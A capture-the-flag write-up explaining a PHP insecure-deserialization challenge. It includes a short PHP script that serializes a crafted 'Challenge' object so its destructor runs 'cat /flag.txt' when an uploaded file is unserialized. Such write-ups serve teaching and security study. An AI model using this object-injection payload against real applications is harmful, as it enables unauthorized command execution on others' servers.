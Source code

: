 ## Challange
Read the flag `flag.txt`. 
## Solution
In this website we can download the user as serialized object and then uploaded deserializing it. In data.php is present `Challange` class which is never used in the code but has two methods `start()` and `stop()` which can execute commands. The `start()` method is never invoked, but `stop()` is called when `__decostruct`. If we craft the content of the upload file by serializing the class in this way:
```php
<?php

class Challenge{
  //WIP Not used yet.
  public $name;
  public $description;
  public $setup_cmd=NULL;
  // public $check_cmd=NULL;
  public $stop_cmd="cat /flag.txt";
}

$r = new Challenge();
echo serialize($r);

?>
```
We obtain the flag when we upload the fake user, because after the data is unserialized the object reference is destroyed, calling the decostructor, executing `cat /flag.txt`.